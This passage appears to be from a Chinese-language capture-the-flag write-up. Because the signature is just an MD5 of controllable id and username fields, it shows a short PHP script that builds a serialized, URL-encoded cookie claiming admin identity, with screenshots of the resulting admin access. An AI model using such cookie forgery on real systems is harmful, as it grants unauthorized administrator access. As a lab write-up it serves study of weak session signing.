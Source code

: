 考虑到注释里面，sign需要的id，name都是可控的，伪造一个admin的cookie

```php
<?php
$id=1;
$username="admin";
$sign = array(
                    'id'=>$id,
                    'name'=>$username,
                    'sign'=>md5($id.$username),
                );
echo serialize($sign);
echo "\n";
echo urlencode(serialize($sign));
echo "\n";
?>
```

可以看到身份已经成管理员了：

![1571194732400](writeup/1571194732400.png)

加一条replace给浏览器用：

![1571194913710](writeup/1571194913710.png)
